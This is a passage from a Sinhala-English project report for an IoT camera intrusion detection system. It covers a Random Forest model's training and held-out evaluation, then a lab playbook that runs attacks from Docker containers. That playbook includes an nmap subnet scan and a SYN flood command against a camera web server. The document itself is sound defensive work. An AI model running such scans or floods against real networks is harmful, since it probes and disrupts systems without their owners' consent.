     - ආරක්ෂිත IP එකක් (උදා: `192.168.50.20`) block කිරීමට උත්සාහ කළහොත් backend එක `403 ALLOWLIST_PROTECTED` ලෙස ප්‍රතික්ෂේප කරයි.
  2. **Logs & Export පිටුව (`http://localhost:5000/export`):**
     - Proposal FR-08 Forensic Export කොටස:
       - **Filter Options:** Log type (Attack Events / System & Audit Logs / Firewall Response Actions), Attack Class (`Benign`, `DDoS_DoS`, `PortScan`, `CnC`, `Malware_Download`), IP Address, සහ ආරම්භක / අවසාන දිනය අනුව පෙරහන් කළ හැක.
       - **Export බොත්තම්:** **`EXPORT RFC 4180 CSV`** හෝ **`EXPORT STRUCTURED JSON`** ක්ලික් කළ සැණින් ගොනුව Browser එක හරහා බාගත වේ. සෑම export එකක්ම audit log එකේ `LOGS_EXPORTED` ලෙස සටහන් වේ.
       - පිටුවේ පහළ ඇති **System & Audit Logs** වගුවේ `MANUAL_BLOCK`, `MANUAL_UNBLOCK`, `AUTH_LOGIN_SUCCESS` වැනි සියලු පරිපාලක ක්‍රියා දිස්වේ.
- **මෙයින් ඔප්පු වන කරුණ:** Proposal Table 10 Scenario 6 (Manual Block & Unblock) සහ Table 7 FR-08 (Filtered Log Export) Virtual Lab එකේ ක්‍රියාත්මක වන බව තහවුරු වේ (12 Nov 2026: `201 / 200 / 200`). සෑම block, unblock සහ export ක්‍රියාවක්ම audit log එකේ (`system_logs`) සටහන් වේ (FR-07).
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, this satisfies Objective O5, FR-06, FR-07, and FR-08. Our evaluation proves the administrator can manually intervene to enforce or rollback blocks, while maintaining full forensic reproducibility through CSV and JSON audit exports."*
  >

---

### 4.2.12 Machine Learning ආකෘතියේ පුහුණුව, නිරවද්‍යතාව සහ සජීවී වර්ගීකරණය තහවුරු කිරීම (ML Model Architecture, IoT-23 Training, Zero-Leakage Evaluation & Live Inference Proof - Objective O2, Table 6, Table 7 FR-02, Table 8, Table 9)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O2** ("Train an off-the-shelf classifier on IoT network data, tuned to catch real attacks while keeping the benign false-positive rate low") සහ **Objective O3** ("Validate the model in two steps: first on held-out scenarios to test generalisation, then on our own IP-camera traffic to measure false alarms").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතා (Requirements):**
>   - **Table 7 FR-01 (Must):** Zeek logs වලින් Proposal Table 6 ට අනුකූලව flow features 27 ක් නිරවද්‍යව උකහා ගැනීම (Zero Training-Serving Skew).
>   - **Table 7 FR-02 (Must):** ජාල ගමනාගමනය (flows) පන්ති 5 කට (Benign, DDoS_DoS, PortScan, CnC, Malware_Download) confidence අගයක් සහ Model Version (`v3.1.0`) සමඟ වර්ගීකරණය කිරීම.
> - **විසඳෙන පර්යේෂණ ගැටලු සහ විද්‍යාත්මක උපකල්පනය (Research Questions & Hypothesis):**
>   - **RQ1 & RQ2:** IoT ජාල දත්ත මත පදනම්ව Random Forest ආකෘතියේ වර්ගීකරණ නිරවද්‍යතාව සහ විවිධ ප්‍රහාරක හැසිරීම් රටා හඳුනාගැනීම.
>   - **Hypothesis H1 (පළමු කොටස):** Held-out scenario (`Capture-34-1`) මත Macro-F1 $\ge 0.85$: පවතින පන්ති 4 සඳහා **0.8595** (D-054), පන්ති 5 ම සඳහා 0.6876.
>     - ⚠️ **අවංක සටහන:** 34-1 පුහුණුවට කිසිදු flow එකක් නොගත්තද, model තේරීමේ කාලය තුළ එය දැනටමත් බලා අධ්‍යයනය කර ඇත; එබැවින් එය **සම්පූර්ණයෙන්ම පිරිසිදු (clean) පරීක්ෂණයක් නොවේ** (`reports/experiments/evaluation_iot23.md`). Lab එකෙන් එය තහවුරු කළ යුතුය.
>     - 34-1 මත Benign FPR එක **5.6%** (ඉලක්කය 5% ට මඳක් වැඩි). H1 හි දෙවන කොටස (අපේ **සැබෑ කැමරා** traffic මත FPR ≤ 5%) Hardware Lab එකෙන් මැනිය යුතුය.
>   - **Supervisor Checkpoint C4 & C6:** Scenario-level split (Scenario `Capture-34-1` පුහුණුවට නොගෙන වෙන් කර තැබීම) සහ Zero Training-Serving Skew (Offline training සඳහා සහ Live detection සඳහා එකම Feature කේතය භාවිතා කිරීම).
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** පද්ධතිය තුළ ක්‍රියාත්මක වන AI / Machine Learning ආකෘතිය (Random Forest Classifier Model `v3.1.0`) නිකම්ම Dummy හෝ උපකල්පිත එකක් නොව, සැබෑ IoT-23 දත්ත කට්ටලයේ flows 1,182,984 ක් මත පුහුණු කරන ලද, පුහුණුවට නොගත් held-out scenario එක (34-1) මත පරීක්ෂා කළ, සහ තත්පරයකට flows 125,000 කට වඩා වර්ගීකරණය කළ හැකි (7.96 µs per flow) model එකක් බව සජීවී Terminal Commands මඟින් පෙන්වීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objective O2, Objective O3, FR-01, FR-02, and Table 9 Model Quality criteria. Our intrusion detection engine is powered by an optimized 100-tree Random Forest classifier bundle (v3.1.0) trained on 1,182,984 flows across 22 IoT-23 scenarios using 27 behavioral features. On the held-out scenario Capture-34-1 (23,145 flows), which was never used for training, it reached 93.22% accuracy, 0.9367 weighted F1 and 0.8595 macro-F1 on the four classes present. Because we had already studied 34-1 while choosing the model, this is not a fully clean test, and the hardware lab must confirm it. One flow takes about 8 microseconds."*

---

#### 🧠 Machine Learning ආකෘතිය නිර්මාණය කළ සහ පුහුණු කළ ආකාරය (Model Architecture & Training Details)

1. **පුහුණු දත්ත කට්ටලය (Training Dataset - IoT-23 v1.0.0):**
   - Stratosphere IoT-23 දත්ත කට්ටලයේ flows 325,309,946 න් (`reports/data_quality_report.md`), training scenarios 22 න් ගත් stratified sample එකකින්, අවසාන training rows **1,182,984** කි.
   - Sampling එකේදී කුඩා පන්තිවල rows සියල්ල තබාගත්තේය (උදා: CnC flows 48,992 ම).
   - **Variant WCD (Decisions D-051, D-052, D-054):** `label_trusted = False` rows සහ `config/disputed_labels.yaml` හි ඇති disputed rows ඉවත් කර පුහුණු කර ඇත.

2. **Scenario-level Split (Level 2 Held-Out Test - Checkpoint C4):**
   - Proposal Section 3.3 සහ Checkpoint C4 අනුව, **`CTU-IoT-Malware-Capture-34-1` (Mirai botnet capture - flows 23,145)** scenario එක පුහුණුවෙන් වෙන් කර (Held-out) තැබිණි. Model එක පුහුණු කිරීමට එයින් එකඳු flow එකක්වත් භාවිත නොකළේය.
   - ⚠️ නමුත් model / variant තේරීමේදී 34-1 ප්‍රතිඵල බලා ඇති බැවින්, මෙය සම්පූර්ණයෙන්ම පිරිසිදු (clean) පරීක්ෂණයක් ලෙස වාර්තා නොකරන්න (34-1 භාවිත කර model එක තෝරා නොගත යුතුය - project rule).

3. **හැසිරීම් රටා ලක්ෂණ 27 (27 Behavioral Features - Proposal Table 6 & Zero-Skew):**
   - Training සහ live detection දෙකම එකම කේතය (`ml_engine/features.py` + `ml_engine/window_features.py`, live එකේදී `core_engine/zeek_adapter.py` හරහා) භාවිත කර හරියටම එකම ලක්ෂණ 27 සාදයි:
     - **ප්‍රවාහන සහ සේවා (6 Categorical):** `proto`, `service`, `conn_state`, `history`, `orig_port_cat`, `resp_port_cat` (Ordinal Encoded).
     - **තනි Flow එකක පරිමාව සහ කාලය (13 Numerical):** `duration`, `orig_bytes`, `resp_bytes`, `missed_bytes`, `orig_pkts`, `orig_ip_bytes`, `resp_pkts`, `resp_ip_bytes`, `orig_bytes_per_pkt`, `resp_bytes_per_pkt`, `byte_ratio`, `pkt_ratio`, `is_incomplete_flow`.
     - **කාල කවුළු ලක්ෂණ (8 Window Features - D-051, D-052):** එකම මූලාශ්‍රයෙන් තත්පර 60 ක් තුළ සම්බන්ධතා ගණන (`src_conn_60s`), වෙනස් ගමනාන්ත ගණන (`src_udst_60s`), වෙනස් ports ගණන (`src_uport_60s`), ගමනාන්ත අනුපාතය (`src_udst_ratio`), එකම source→destination යුගලයේ තත්පර 60 සම්බන්ධතා (`pair_conn_60s`), C&C beacon කාල පරතරය (`pair_gap`, `pair_gap_change`), සහ පැයක් තුළ එම යුගලයේ අසාර්ථක TCP උත්සාහයන් (`pair_fail_1h`).
   - 🔒 **දැඩි ආරක්ෂක නීතිය (Rule 5):** IP Addresses, MAC addresses, UIDs හෝ File names ආකෘතියට කිසිවිටෙකත් input ලෙස ලබා නොදේ (Zero IP bias).

4. **ඇල්ගොරිතමය සහ Hyperparameters (Random Forest Classifier):**
   - **Estimators:** `n_estimators = 100` (Decision Trees 100 ක එකතුව).
   - **Tree Constraints:** `max_depth = 25`, `max_features = 'log2'`, `min_samples_leaf = 4`, `min_samples_split = 2`.
   - **Class Balancing:** `class_weight = 'balanced'` (අසමතුලිත දත්ත සඳහා ස්වයංක්‍රීයව බර තැබීම).
   - **Probabilities:** Model bundle එකේ ඇත්තේ **calibration නොකළ (raw) Random Forest probabilities** ය (Step 17a, D-044/D-045 අනුව තෝරාගත්). Alert / block සීමාවන් ගණනය කළේ grouped out-of-fold probabilities මතයි. (`CalibratedClassifierCV` භාවිත නොවේ.)

5. **ද්විත්ව මෙහෙයුම් සීමාවන් (Dual Operational Thresholds - Table 7 FR-02 & D-021):**
   - **Passive Alert Threshold:** $P \ge 0.30$ (ඕනෑම ප්‍රහාරක පන්තියක සම්භාවිතාව 30% ඉක්මවූ විට Dashboard Alert නිකුත් වේ).
   - **Active Response Threshold:** CnC block $P \ge 0.30$, PortScan block $P \ge 0.88$, DDoS_DoS **rate-limit** $P \ge 0.30$ (D-055), Malware_Download - block නැත (alert පමණි). ඊට අමතරව තත්පර 60 තුළ alerts 3 ක් අවශ්‍යයි. කැමරා ජාලය (`192.168.50.0/24`) සහ allowlist IP කිසිවිටෙක ස්වයංක්‍රීයව block නොවේ.

---

#### 🧪 සජීවීව පරීක්ෂා කර පෙන්වන පියවර 3 (3 Executable Proof Steps)

- **පියවර 1: Production Model Bundle Metadata සහ ගුණාංග පරීක්ෂාව (Inspect Bundle Metadata):**

  ```powershell
  .venv\Scripts\python.exe -c "import joblib; b = joblib.load('ml_engine/models/ids_bundle_v3.joblib'); m = b['metadata']; print('Model Name       :', m['bundle_name'], '(' + m['bundle_version'] + ')'); print('Git Commit       :', m['git_commit']); print('Training Flows   :', m['training_samples_count'], 'flows (IoT-23 Variant ' + m['training_variant'] + ')'); print('Feature Columns  :', len(b['feature_columns']), 'features'); print('Class Names      :', b['class_names']); print('Held-Out Test    :', m['level_2_heldout_scenario'], '(' + str(m['level_2_heldout_flows']) + ' flows)'); print('Held-Out Accuracy: %.2f%%' % (m['level_2_accuracy'] * 100)); print('Present Macro-F1 : %.2f%% (Target >= 85.0%%)' % (m['level_2_macro_f1_present'] * 100)); print('Inference Latency: %.2f microseconds/flow' % m['inference_latency_us_flow'])"
  ```

  > **කේතයෙන් සිදුවන දේ සරලව:** `ids_bundle_v3.joblib` ගොනුව load කර, පුහුණු කළ flows ගණන, features 27, classes 5, සහ held-out පරීක්ෂණ අගයන් terminal එකේ පෙන්වීම. *(Windows PowerShell 5.1 හි `\"` escaping ක්‍රියා නොකරන බැවින්, මෙම විධානයේ ඇතුළත double quotes කිසිවක් නැත.)*

  - **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

    ```text
    Model Name       : iot_camera_ids_bundle (v3.1.0)
    Git Commit       : 26f69f5
    Training Flows   : 1182984 flows (IoT-23 Variant WCD)
    Feature Columns  : 27 features
    Class Names      : ['Benign', 'DDoS_DoS', 'PortScan', 'CnC', 'Malware_Download']
    Held-Out Test    : CTU-IoT-Malware-Capture-34-1 (23145 flows)
    Held-Out Accuracy: 93.22%
    Present Macro-F1 : 85.95% (Target >= 85.0%)
    Inference Latency: 7.96 microseconds/flow
    ```

- **පියවර 2: සම්පූර්ණ Held-Out Test Evaluation එක නැවත ධාවනය කර විද්‍යාත්මක වාර්තාව තහවුරු කිරීම (Level 2 Scientific Evaluation):**

  ```powershell
  .venv\Scripts\python.exe ml_engine/evaluate.py
  ```

  > **කේතයෙන් සිදුවන දේ සරලව:** Proposal Section 3.4 සහ Step 16 අනුව, කිසිදා පුහුණුවට නොගත් `held_out_test.parquet` (Capture-34-1 flows 23,145) මත Random Forest, Logistic Regression සහ HistGradientBoosting ආකෘති 3 ම සසඳා සම්පූර්ණ විද්‍යාත්මක වාර්තාව නැවත උත්පාදනය කිරීම.

  - **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

    ```text
    [INFO] Starting Step 16 Held-Out Scenario Evaluation...
    [INFO] Loading sealed held-out test dataset from: data\processed\heldout\held_out_test.parquet
    [INFO] Successfully verified scenario 'CTU-IoT-Malware-Capture-34-1' with 23145 flows across classes: {0: np.int64(1923), 1: np.int64(14394), 2: np.int64(122), 3: np.int64(6706)}
    [INFO] Evaluating model: Random Forest (Bagging) on 23145 held-out flows...
    [INFO] Evaluating model: Logistic Regression (Linear) on 23145 held-out flows...
    [INFO] Evaluating model: HistGradientBoosting (Boosting) on 23145 held-out flows...
    [INFO] Saved evaluation summary CSV to: reports\experiments\evaluation_iot23.csv
    [INFO] Saved held-out evaluation markdown report to: reports\experiments\evaluation_iot23.md
    [INFO] Saved confusion matrix visualization to: reports\experiments\confusion_matrix_heldout.png
    [INFO] Step 16 evaluation complete! Deliverables generated in reports\experiments
    ```
    *(12 Nov 2026 දින run එක; තත්පර ~8 ක් ගතවේ. සෑම පේළියකම ආරම්භයේ දිනය සහ වේලාවද පෙනේ. Classes: 0 = Benign, 1 = DDoS_DoS, 2 = PortScan, 3 = CnC; 34-1 හි Malware_Download නැත.)*
    *(සටහන: මෙය `reports/experiments/evaluation_iot23.md`, `.csv` සහ `confusion_matrix_heldout.png` නැවත ලියයි. ලකුණු (scores) එලෙසම පවතින අතර speed අගයන් පමණක් සෑම run එකකම මඳක් වෙනස් වේ.)*

  - **ප්‍රතිඵල විශ්ලේෂණ සාරාංශය (Multi-Model Comparison Table):**

    *(මූලාශ්‍රය: `reports/experiments/evaluation_iot23.csv`, Capture-34-1, flows 23,145)*

    | පරීක්ෂණ මිණුම (Metric) | Random Forest (deployed) | Logistic Regression | HistGradientBoosting | සටහන |
    | :--- | :---: | :---: | :---: | :--- |
    | **Overall Accuracy** | **93.22%** | 89.05% | 96.50% | |
    | **Weighted F1-Score** | **0.9367** | 0.9096 | 0.9656 | |
    | **Macro-F1 (පවතින පන්ති 4)** | **0.8595** | 0.6985 | 0.8697 | H1 ඉලක්කය $\ge 0.85$ (D-054); 34-1 clean test එකක් නොවේ |
    | **Macro-F1 (පන්ති 5 ම)** | 0.6876 | 0.5588 | 0.6958 | Malware_Download 34-1 හි නැත |
    | **Benign FPR (34-1)** | 5.62% | 6.50% | 5.72% | ඉලක්කය ≤ 5% (සැබෑ කැමරාවෙන් මැනිය යුතුය) |
    | **DDoS_DoS F1** | **0.9947** | 0.9255 | 0.9810 | RF: Precision 1.000, Recall 0.9894 |
    | **CnC F1** | **0.8758** | 0.9627 | 0.9421 | RF: Precision 0.9587, Recall 0.8061 |
    | **PortScan F1** | **0.8464** | 0.2587 | 0.6006 | RF: Precision 0.7793, Recall 0.9262 (flows 122 පමණි) |
    | **Benign F1** | 0.7212 | 0.6472 | 0.9552 | |
    | **Time per flow (model only)** | ~3–8 µs | ~3–4 µs | ~12–14 µs | සෑම run එකකම වෙනස් වේ |

    > ⚠️ **අවංක සටහන:** HistGradientBoosting සමස්ත ලකුණු වලින් RF ට වඩා මඳක් ඉහළය, සහ CnC වලදී Logistic Regression (0.963) සහ HGB (0.942) යන දෙකම RF (0.876) ට වඩා හොඳය. RF ඉදිරියෙන් සිටින්නේ PortScan (0.846) සහ DDoS_DoS වලදීය. RF deployed කළේ proposal එකේ තේරීම අනුවයි (Random Forest prototype); 34-1 ප්‍රතිඵල මත model එක තෝරා නොගත යුතුය.

- **පියවර 3: සජීවී Network Flows ලබාදී තත්‍ය කාලීන ML Inference සහ Calibrated Probabilities පරීක්ෂා කිරීම (Live Flow Classification Test):**

  ```powershell
  .venv\Scripts\python.exe -c "
  import joblib, pandas as pd
  bundle = joblib.load('ml_engine/models/ids_bundle_v3.joblib')
  model, cols, classes = bundle['calibrated_model'], bundle['feature_columns'], bundle['class_names']
  df = pd.read_parquet('data/processed/heldout/held_out_test.parquet')

  print('=== REAL-TIME MODEL INFERENCE TEST ===')
  for target in ['CnC', 'PortScan']:
      sample = df[df['class_name'] == target].iloc[0:1]
      probs = model.predict_proba(sample[cols])[0]
      pred = classes[probs.argmax()]
      print(f'Test Input: {target:10s} -> Predicted: {pred:10s} (Confidence: {probs.max()*100:5.2f}%)')
      print(f'    Probabilities Distribution: {dict(zip(classes, [round(float(p), 4) for p in probs]))}')
  "
  ```

  > **කේතයෙන් සිදුවන දේ සරලව:** Held-out dataset එකෙන් තෝරාගත් සැබෑ CnC botnet flow එකක් සහ PortScan flow එකක් Model එකට ලබාදී, එය තත්‍ය කාලීනව වර්ගීකරණය කර සම්භාවිතා ප්‍රතිශත ගණනය කරන අයුරු සජීවීව දැකබලා ගැනීම.

  - **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

    ```text
    === REAL-TIME MODEL INFERENCE TEST ===
    Test Input: CnC        -> Predicted: CnC        (Confidence: 92.17%)
        Probabilities Distribution: {'Benign': 0.0184, 'DDoS_DoS': 0.0, 'PortScan': 0.0591, 'CnC': 0.9217, 'Malware_Download': 0.0007}
    Test Input: PortScan   -> Predicted: PortScan   (Confidence: 57.82%)
        Probabilities Distribution: {'Benign': 0.1446, 'DDoS_DoS': 0.0673, 'PortScan': 0.5782, 'CnC': 0.1981, 'Malware_Download': 0.0119}
    ```

- **🖥️ Dashboard එකෙන් මෙය සජීවීව පෙනෙන ආකාරය (What Appears on the Dashboard UI):**
  1. **System Overview පිටුව (`http://localhost:5000/overview`):**
     - දකුණු පස පහළ **"SYSTEM STATUS (MEASURED)"** කොටසේ:
       - `Model`: **`v3.1.0`** (භාවිතා වන ආකෘතියේ සංස්කරණය පැහැදිලිව පෙන්වයි).
       - `Time per flow, Zeek line to dashboard (median / 95%)`: මනින ලද අගයන් (12 Nov 2026: ~114–180 ms / ~300–575 ms). Model එකට ගතවන්නේ flow එකකට microseconds ~8 ක් පමණි; ඉතිරි කාලය feature සෑදීම, database ලිවීම සහ WebSocket push එකයි.
     - **ATTACK CLASS DISTRIBUTION ප්‍රස්ථාරය:**
       - Database එකේ ඇති ප්‍රහාරක flows පන්තිය අනුව (DDoS_DoS, CnC, PortScan, Malware_Download) එක් එක් පන්තියේ වර්ණයෙන් තීර ප්‍රස්ථාරයක් ලෙස පෙන්වයි.

- **මෙයින් ඔප්පු වන කරුණ:** Objective O2 (IoT-23 මත පුහුණු කළ multi-class Random Forest), Objective O3 හි පළමු පියවර (held-out scenario 34-1 මත පරීක්ෂාව), Table 6 (features 27), Table 7 FR-01 & FR-02 (class, confidence, model version), සහ Table 9 latency ඉලක්කය Virtual Lab එකේ ක්‍රියාත්මක වන බව. **ඉතිරි කොටස්:** O3 හි දෙවන පියවර සහ H1 හි FPR කොටස සැබෑ කැමරාවකින් (Hardware Lab) මැනිය යුතුය; 34-1 clean test එකක් නොවන බැවින් lab ප්‍රතිඵල අවශ්‍යයි.
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, our model is a 100-tree Random Forest (v3.1.0) trained on 1,182,984 IoT-23 flows from 22 scenarios with 27 features. On the held-out scenario Capture-34-1 it reached 93.22% accuracy and 0.8595 macro-F1 on the four classes present, which meets the H1 number. 34-1 was studied while we chose the model, so it is not a fully clean test, and the benign false-positive rate there is 5.6%. The real-camera false-positive rate will come from the hardware lab. HistGradientBoosting scored slightly higher overall; we keep the Random Forest as planned in the proposal and report the comparison."*
  >

---

### 4.3 විවිධ ප්‍රහාර වර්ග අතින් Commands ගසා සජීවීව පෙන්වීමේ ප්‍රායෝගික අත්පොත (Hands-On Manual Attack Execution, ML Detection, Firewall Response & Dashboard Telemetry Playbook)

> 🎯 **මෙම අත්පොතේ අරමුණ (Purpose of this Playbook):**
> කිසිදු ස්වයංක්‍රීය wrapper ස්ක්‍රිප්ට් එකක් පිටුපස සැඟවෙන්නේ නැතිව, අප පද්ධතිය හඳුනාගන්නා **සියලුම ප්‍රහාර වර්ග 5 (PortScan, DDoS SYN Flood, C&C Botnet Beacons, Malware Download, Manual Administrator Block)** සඳහා Terminal එකේ අතින්ම commands ගසා (`docker exec` මඟින්):
> 1. **ප්‍රහාරක විධානය සජීවීව ධාවනය කිරීම (Direct Manual Attack Command)**
> 2. **කේතයෙන් සහ ජාලයෙන් සිදුවන දේ සරලව තේරුම් ගැනීම (Under the Hood Execution)**
> 3. **Zeek Sensor එකෙන් packets capture කර ලියන logs පරීක්ෂා කිරීම (Zeek Sniffing Proof)**
> 4. **Random Forest AI Model එකෙන් (v3.1.0) අදාළ ප්‍රහාරක පන්තිය (Class & Confidence) හඳුනාගන්නා ආකාරය (ML Inference Proof)**
> 5. **Router Firewall එකේ (Linux nftables) සජීවීව Block / Rate-Limit වන ආකාරය තහවුරු කිරීම (Firewall State Verification)**
> 6. **React SOC Dashboard එකේ WebSocket හරහා screen එක refresh නොවී Live Alert එක සහ Mitigations පෙන්වන ආකාරය (Dashboard Telemetry)**
> 7. **ප්‍රහාරය අවසන් වූ පසු Background Processes නැවැත්වීම (Cleanup Command)**
> Supervisor ඉදිරියේ පියවරෙන් පියවර විද්‍යාත්මකව ඔප්පු කිරීමට අවශ්‍ය සියලු විධානයන් සහ පැහැදිලි කිරීම් පහත දැක්වේ.

---

#### 4.3.0 සෑම ප්‍රහාරයකටම පෙර (Before Each Attack)

```powershell
# පෙර ප්‍රහාරයකින් ඉතිරි වූ blocks ඉවත් කිරීම (database එක සහ router එක දෙකම):
.venv\Scripts\python.exe lab_virtual\lab.py reset
```

*(Blocks ඉතිරිව තිබුණොත් ඊළඟ ප්‍රහාරයේ packets router එකේදී drop වී, ප්‍රතිඵල වෙනස් විය හැක. Alerts බැලීමට Live Alerts පිටුව (`/alerts`) විවෘතව තබාගන්න.)*

> ⚠️ **Git Bash භාවිත කරන්නේ නම්:** පහත commands **PowerShell** සඳහාය. Git Bash හි `/lab/...` වැනි paths ස්වයංක්‍රීයව Windows paths බවට වෙනස් වී commands අසාර්ථක වේ (`can't open file '//C:/Program Files/Git/lab/...'`). Git Bash හි නම් පළමුව `export MSYS_NO_PATHCONV=1` run කරන්න.

---

#### 4.3.1 ප්‍රහාර වර්ගය 1: PortScan (Reconnaissance - Table 10 Scenario 2)

- **ප්‍රහාරක අවස්ථාව සහ අරමුණ:** පිටත WAN ජාලයේ සිටින Attacker Laptop එක (`10.10.10.50`), Router එක හරහා කැමරා Subnet එකේ ඇති විවෘත Ports සෙවීමට Nmap TCP SYN scan එකක් එල්ල කරයි.
- **1. Terminal එකේ අතින් ගසන Command එක (Manual Attack Command):**
  ```powershell
  docker exec ids-lab-attacker nmap -p 23,80,554 192.168.50.0/24
  ```
  *(තනි කැමරාවක ports 2 ක් පමණක් scan කිරීමෙන් (`nmap -p 80,554 192.168.50.30`) alert එකක් ඇති නොවේ - 4.2.6 බලන්න.)*

- **2. කේතයෙන් සිදුවන දේ සරලව (Under the Hood):**
  Attacker container එක Router එක (`10.10.10.1`) හරහා `192.168.50.0/24` subnet එකේ ලිපින 256 ටම Ports 23, 80, 554 වෙත TCP SYN packets යවයි. Hosts 6 ක් "up" ලෙස සොයාගෙන, කැමරාවේ ports 80 සහ 554 විවෘත බව පෙන්වයි (තත්පර ~8).

- **3. Zeek Sensor එක Capture කරන හැටි (Zeek Sniffing Proof):**
  ```powershell
  Get-Content lab_virtual\zeek_logs\conn.log | Select-String '"id.orig_h":"10.10.10.50"' | Select-Object -Last 5
  ```
  - **ලැබෙන log සටහන්:** `id.orig_h: "10.10.10.50"`, විවිධ `id.resp_h` (`.1`, `.10`, `.20`, `.30`, `.254` ...), `id.resp_p` 23 / 80 / 554, සහ කෙටි, අසම්පූර්ණ connection states (`REJ`, `S0` ආදිය).

- **4. ML Model (v3.1.0) හඳුනාගන්නා ආකාරය (ML Inference):**
  - Window features `src_conn_60s`, `src_udst_60s` (වෙනස් ගමනාන්ත ගණන), `src_uport_60s` (වෙනස් ports ගණන), `src_udst_ratio` මඟින් එකම source එක කෙටි කාලයකදී බොහෝ hosts / ports වෙත ගිය බව ගණනය කරයි.
  - Model එක මෙය **`PortScan`** ලෙස වර්ගීකරණය කරයි (12 Nov 2026: confidence **0.88**; 11 Nov: 0.75).

- **5. Router Firewall සහ Safety Rules (Firewall State):**
  - PortScan **block** කිරීමට $P \ge 0.88$ සහ තත්පර 60 තුළ alerts 3 ක් අවශ්‍යයි. එක් scan එකකින් සාමාන්‍යයෙන් ලැබෙන්නේ alert 1 ක් බැවින් response එක `candidate` (block නැත) වේ.
  ```powershell
  docker exec ids-lab-router nft list set inet ids block_src
  ```
  *(12 Nov 2026: `block_src` හිස්ව පැවතුණි. කැමරාව කිසිවිටෙක block නොවේ.)*

- **6. 🖥️ Dashboard එකෙන් සජීවීව පෙනෙන ආකාරය (`http://localhost:5000/alerts`):**
  - Refresh නොකර අලුත් alert කාඩ්පතක් වැටේ:
    - **Badge:** `MODEL PREDICTION`, **Class:** `PortScan` (amber පැහැය), **Confidence:** ~88%
    - **Source → Destination:** `10.10.10.50:<port>` → `192.168.50.254:23` (subnet එකේ ඕනෑම host එකක් විය හැක), direction `inbound`
    - **Response:** `RESPONSE: CANDIDATE`

- **7. Cleanup:** Nmap ස්කෑන් එක අවසන් වූ සැණින් තනිවම නවතින බැවින් අමතර process cleanup අවශ්‍ය නොවේ.

---

#### 4.3.2 ප්‍රහාර වර්ගය 2: DDoS / DoS SYN Flood (Resource Exhaustion - Table 10 Scenario 3 & Rule D-055)

- **ප්‍රහාරක අවස්ථාව සහ අරමුණ:** Attacker Laptop එක පිටත ජාලයේ සිට කැමරාවේ Web Server එක (Port 80) වෙත තත්පරයට TCP SYN packets 1,000 ක් තත්පර 20 ක් යවයි (Proposal Table 10 Row 3).
- **1. Terminal එකේ අතින් ගසන Command එක (Manual Attack Command):**
  ```powershell
  docker exec ids-lab-attack-server python -u /lab/syn_flood.py 192.168.50.30 --port 80 --rate 1000 --seconds 20
  ```
  **ලැබෙන පිළිතුර:**
  ```text
  SYN flood 10.10.10.50 -> 192.168.50.30:80, 1000/s for 20 s
  sent 20002 SYN packets in 20.0 s
  ```

- **2. කේතයෙන් සිදුවන දේ සරලව (Under the Hood):**
  `syn_flood.py` (Python standard library පමණි) Linux raw socket එකක් භාවිත කර `10.10.10.50` සිට `192.168.50.30:80` වෙත SYN packets යවයි. **සෑම packet එකකටම වෙනස් (අහඹු) source port එකක්** ඇති බැවින් Zeek හට එක් එක් packet එක වෙනම කෙටි connection එකක් ලෙස පෙනේ (11 Nov run එකේ flows 6,226 ක්). Script එක අනුමත subnet (`192.168.50.0/24`) පිටත ඉලක්ක ප්‍රතික්ෂේප කරයි; උපරිම 5,000 pkt/s, තත්පර 120.

- **3. Zeek Sensor එක Capture කරන හැටි (Zeek Sniffing Proof):**
  ```powershell
  (Get-Content lab_virtual\zeek_logs\conn.log | Select-String '"id.orig_h":"10.10.10.50","id.orig_p":[0-9]*,"id.resp_h":"192.168.50.30","id.resp_p":80,').Count
  ```
  - **ලැබෙන දේ:** Attacker සිට කැමරාවේ port 80 වෙත කෙටි flows දහස් ගණනක් (සෑම එකකම `orig_pkts` 1 ක් පමණ, `orig_bytes: 0`).

- **4. ML Model (v3.1.0) සහ Mitigation Rule (D-055):**
  - `src_conn_60s` (තත්පර 60 තුළ connections ගණන), `src_uport_60s`, `duration`, `orig_pkts`, `conn_state` වැනි features මඟින් Model v3.1.0 මෙය **`DDoS_DoS`** ලෙස වර්ගීකරණය කරයි (12 Nov 2026: confidence **0.44**; 11 Nov: 0.58).
  - DDoS_DoS සඳහා block සීමාවක් නැත; **rate-limit සීමාව $P \ge 0.30$** (D-055, settings `response.ddos_rate_limit: true`). Decision Engine එක පිටත source එක `limit_src` set එකට මිනිත්තු 30 කට දමයි.
  - ⚠️ **අවංක සටහන (12 Nov 2026 run එක):** Flood එකේ මුල් flows සඳහා model එක **`CnC`** ලෙසද (confidence 0.55) අනාවැකි දුන් අතර, CnC block සීමාව (0.30) ඉක්මවූ බැවින් `10.10.10.50` **`block_src`** එකටද වැටුණි (rate-limit එකට තත්පර 4 කට පෙර). එබැවින් මෙම run එකේදී attacker සම්පූර්ණයෙන්ම block වී සහ rate-limit වී ඇත. මෙය ආරක්ෂිත ප්‍රතිඵලයකි (ප්‍රහාරකයා පමණක් නවතී, කැමරාව block නොවේ), නමුත් සෑම run එකකදීම සිදු නොවේ (11 Nov run එකේදී rate-limit පමණි).

- **5. Router Firewall ක්‍රියාත්මක වීම සහ කැමරා සේවාව සුරැකීම (Safety Verification):**
  ```powershell
  docker exec ids-lab-router nft list set inet ids limit_src
  docker exec ids-lab-router nft list set inet ids block_src
  ```
  **ලැබෙන පිළිතුර (12 Nov 2026):**
  ```text
  table inet ids {
  	set limit_src {
  		type ipv4_addr
  		flags timeout
  		elements = { 10.10.10.50 timeout 30m expires 29m432ms }
  	}
  }
  ```
  - **කැමරාවේ stream port එක (554) NVR එකට තවමත් විවෘත බව:**
    ```powershell
    docker exec ids-lab-nvr python -c "import socket; s=socket.create_connection(('192.168.50.30', 554), timeout=3); print('NVR -> camera:554 connection OK')"
    ```
